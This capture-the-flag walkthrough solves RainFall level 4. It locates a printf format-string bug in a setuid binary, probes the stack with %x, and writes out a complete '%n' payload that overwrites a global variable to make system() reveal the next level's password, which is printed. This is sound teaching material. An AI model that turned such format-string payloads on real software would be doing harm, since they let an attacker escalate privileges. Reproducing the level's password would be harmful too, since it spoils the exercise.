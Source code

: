 # Level4

As in level3, we can find an executable waiting for an input, print it and quit after press enter
```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ ./level4
bla
bla
level4@RainFall:~$
```
After analyze it with gdb we can see that the `main()` function call a function named `n()` who also call a function named `p()`. Apart from that the binary is almost the same as the level3.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level4/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level4/source.c) for more details.  
<br/>

The `main()` only call `n()`, not very interesting so we can skip it.  
We can see a call to `fgets()`, in `n()`, wich is protect against buffer overflow attack.
```
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
```
After that we can see a call to `printf()` function, in `p()` wich is vulnerable to format string exploit!
```
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
```
Then the program compares the value of a global variable `m` at `0x8049810` to 0x1025544 (16930116 in dec).  
If the comparaison return true the function will launch a shell via a call to `system()`.  
We need to manipulate `printf()` function into changing the value of the variable at the address `0x8049810`.   
First, as in [level3](https://github.com/maxisimo/42-RainFall/blob/main/level3/walkthrough.md) we need to print the memory until we reach the address of the variable we wish to modify, then change the content of the variable `m`.
```
level4@RainFall:~$ python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
aaaa b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0
level4@RainFall:~$ python -c 'print "aaaa" + " %x" * 15' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
aaaa b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
level4@RainFall:~$
```
The buffer `aaaa` is at the 12th position (`61616161`) !  
The previous method can't work, cause the value `16930116` in the comparaison is too long. But with the modifier `%d`, we can dynamically specify the field width (like that : `%16930116d`).  
This will be the only difference between this level and the older one.  
Finally our final format string attack will look like :  
- address of `m` (4 bytes)
- pad of 16930112 (sub 4 bytes cause of `m`) with modifier `%d` + modifier `%n`
```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ su level5
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$
```
*For this level we didn't have to keep listening `stdin` cause the `system()` function made a "/bin/cat /home/user/level5/.pass"*
Level4 passed!
